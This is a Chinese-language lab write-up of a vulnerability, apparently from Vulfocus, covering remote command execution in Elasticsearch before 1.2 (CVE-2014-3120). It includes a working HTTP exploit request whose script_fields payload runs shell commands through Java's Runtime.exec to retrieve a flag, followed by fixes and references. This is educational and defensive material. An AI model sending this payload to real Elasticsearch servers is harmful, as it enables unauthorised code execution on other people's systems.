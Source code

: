ElasticSearch命令执行漏洞(CVE-2014-3120)

##一、漏洞描述

Elasticsearch是一个基于Lucene库的搜索引擎，具有HTTP Web接口和无模式JSON文档。Elasticsearch是用Java开发的，其支持MVEL、js、Java等语言，其老版本默认语言为MVEL。

MVEL-一个被众多Java项目使用的开源的表达式语言。

Elasticsearch 1.2之前的版本默认配置启用了动态脚本，该脚本允许远程攻击者通过_search的source参数执行任意MVEL表达式和Java代码。

## 二、影响版本

Elasticsearch < 1.2


## 三、利用流程



1 启动CVE-2014-3120镜像，打开其访问地址查看，可见其版本为1.1.1
![avatar](/1.png)
![avatar](/2.png)

2 向Elasticsearch添加一条数据
![avatar](/3.png)
其数据包为

    POST /website/blog/ HTTP/1.1
    Host: 118.193.36.37:33967
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0
    Content-Length: 26
    
    {
      "name": "vulfocus"
    }

3 script为最终执行Java代码的地方，此字段会被默认当作脚本执行，按照其json格式向其填充要执行的代码即可
![avatar](/4.png)

最终目的为/tmp下的flag，其数据包为

    POST /_search?pretty HTTP/1.1
    Host: 118.193.36.37:33967
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0
    Content-Length: 361
```
{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"ls /tmp\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
```
4 填入得到的flag，成功则出现 恭喜！通过
![avatar](/5.png)
![avatar](/6.png)
## 四 修复方案

1、升级到新版本，大于等于1.2版本即可解决此问题

2、设置script.disable_dynamic = true，官方已在1.2版本中将true设置为默认值


参考：

https://nvd.nist.gov/vuln/detail/CVE-2014-3120 <br/>
https://www.elastic.co/cn/community/security/
https://www.elastic.co/guide/en/elasticsearch/reference/current/modules-scripting.html
http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/search-request-script-fields.html
https://github.com/elastic/elasticsearch/issues/5853 <br/>	
https://vulhub.org/#/environments/elasticsearch/CVE-2014-3120/<br/>	
https://www.t00ls.net/viewthread.php?tid=29408